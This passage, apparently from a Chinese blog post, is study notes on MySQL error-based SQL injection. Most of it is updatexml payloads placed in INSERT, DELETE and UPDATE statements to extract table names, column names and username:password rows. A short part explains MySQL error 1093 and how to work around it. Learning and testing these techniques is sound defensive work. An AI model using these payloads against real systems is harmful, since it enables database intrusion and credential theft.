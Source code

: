 　　a. 载荷格式：

　　or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or

　　b. insert提取表名：　　

INSERT INTO users (id, username, password) VALUES (2,'r00tgrok' or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or '', 'ohmygod_is_r00tgrok');

​	c. insert提取列名

INSERT INTO users (id, username, password) VALUES (2,'r00tgrok' or updatexml(0,concat(0x7e,(SELECT concat(column_name) FROM information_schema.columns WHERE table_name='users' limit 0,1)),0) or '', 'ohmygod_is_r00tgrok');

 

　　d. insert进行dump

INSERT INTO users (id, username, password) VALUES (2,'r00tgrok' or updatexml(0,concat(0x7e,(SELECT concat_ws(':',id, username, password) FROM users limit 0,1)),0) or '', 'ohmygod_is_r00tgrok');

​	e. delete进行dump

DELETE FROM users WHERE id=1 or updatexml(0,concat(0x7e,(SELECT concat_ws(':',id, username, password) FROM users limit 0,1)),0) or '';

　　f.update进行dump ? 

　　同一个表不能用update进行dump，不同的表却可以

　　UPDATE students SET name='Nicky' or Updatexml(1,concat(0x7e,(SELECT concat_ws(':',id, username, password) FROM newdb.users limit 0,1)),0) or'' 　　WHERE id=1;

　　3.小贴士

　　a.报错，然后爆出了要提取的信息

　　b. 按照作者paper上的代码，mysql5.6.19, 前面提取信息成功，后面dump报错：[Err] 1093 - You can't specify target table 'users' for update in FROM clause

　　c. google之，给出找到的两个参考：

　　[case1:](http://dasunhegoda.com/1093-you-cant-specify-target-table-table_name-for-update-in-from-clause/104/)

  　//报错代码　　DELETE FROM table_name where coulmn_name IN (SELECT coulmn_name FROM table_name  WHERE coulmn_name &gt; 10);

　　//修正代码　　DELETE FROM table_name where coulmn_name IN ( SELECT * FROM (SELECT coulmn_name FROM table_name WHERE coulmn_name &gt; 10) AS X) ;

　　//说明　　　　不能删除子查询指向的相同数据源中的行，update同理　

　　[case2:](http://www.mysqlfaqs.net/mysql-faqs/Errors/1093-You-can-not-specify-target-table-comments-for-update-in-FROM-clause)

[![复制代码](https://common.cnblogs.com/images/copycode.gif)](javascript:void(0);)

```
CREATE TABLE comments(id int primary key, phrase text, uid int);

INSERT INTO comments VALUES(1, 'admin user comments',1),
                           (2, 'HR User Comments',2),
                           (3, 'RH User Comments',2);
UPDATE comments
     SET phrase = (SELECT phrase FROM comments WHERE uid=2 AND id=2)
WHERE id = 3; 
```
